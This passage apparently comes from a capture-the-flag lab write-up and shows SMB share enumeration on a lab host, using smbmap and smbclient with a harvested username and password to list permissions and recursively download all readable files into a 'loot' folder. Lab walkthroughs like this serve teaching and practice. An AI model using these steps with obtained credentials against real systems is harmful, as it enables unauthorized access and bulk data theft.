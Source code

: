 `smbmap` shows the same:

```

root@kali# smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 

```

#### Share Enumeration

There’s a bunch of files in each of the shares I have access to. I use the following commands to just pull all the files in each share (Data for example):

```

root@kali# smbclient --user r.thompson //10.10.10.182/data rY4n5eva
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (47.4 KiloBytes/sec) (average 47.4 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (20.2 KiloBytes/sec) (average 32.5 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (91.0 KiloBytes/sec) (average 53.4 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (50.3 KiloBytes/sec) (average 52.7 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*

```

Then I can see a nice list of the files with `find`:

```

root@kali# find smb-data-loot/ -type f 
smb-data-loot/IT/Logs/DCs/dcdiag.log
smb-data-loot/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log
smb-data-loot/IT/Email Archives/Meeting_Notes_June_2018.html
smb-data-loot/IT/Temp/s.smith/VNC Install.reg

```
